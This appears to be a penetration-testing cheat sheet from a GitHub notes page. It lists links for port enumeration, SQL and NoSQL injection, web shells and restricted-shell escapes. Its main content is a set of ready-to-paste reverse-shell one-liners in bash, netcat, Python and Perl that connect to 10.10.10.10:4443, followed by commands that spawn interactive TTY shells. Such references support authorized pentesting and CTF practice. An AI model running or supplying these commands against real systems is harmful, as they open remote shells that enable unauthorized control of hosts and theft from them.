 ## Enumeration

- General Enumeration - Common port checks: http://www.0daysecurity.com/penetration-testing/enumeration.html
- Nmap Scripts: https://nmap.org/nsedoc/

## Web

- LFI/RFI: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-rfi
- MSSQL Injection: https://www.exploit-db.com/papers/12975
    - MSSQL Union Based Injection: http://www.securityidiots.com/Web-Pentest/SQL-Injection/MSSQL/MSSQL-Union-Based-Injection.html
    - MSSQL SQL Injection Cheat Sheet: http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- MySQL Injection: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- MongoDB Nosql Injection: https://security.stackexchange.com/questions/83231/mongodb-nosql-injection-in-python-code
    - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://guif.re/webtesting


## Shell Exploitation

- Reverse Shell Cheat Sheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- More Reverse Shells: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
- Even More Reverse shells: https://delta.navisec.io/reverse-shell-reference/
- Spawning TTY Shell: https://netsec.ws/?p=337
- Metasploit payloads (msfvenom): https://netsec.ws/?p=331
- Best Web Shells: https://www.1337pwn.com/best-php-web-shells/
    - https://github.com/artyuum/Simple-PHP-Web-Shell
    - http://www.topshellv.com/
- Escape from SHELLcatraz: https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=10

### Reverse Shells
````
- bash -i >& /dev/tcp/10.10.10.10/4443 0>&1
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
- nc -e /bin/sh 10.10.10.10 4443
- nc -e cmd.exe 10.10.10.10 4443
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

### Spawn TTY Shells
````
- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB): exec "/bin/sh"
- (From within vi): :!bash
- (From within vi): :set shell=/bin/bash:shell
- (From within nmap): !sh
````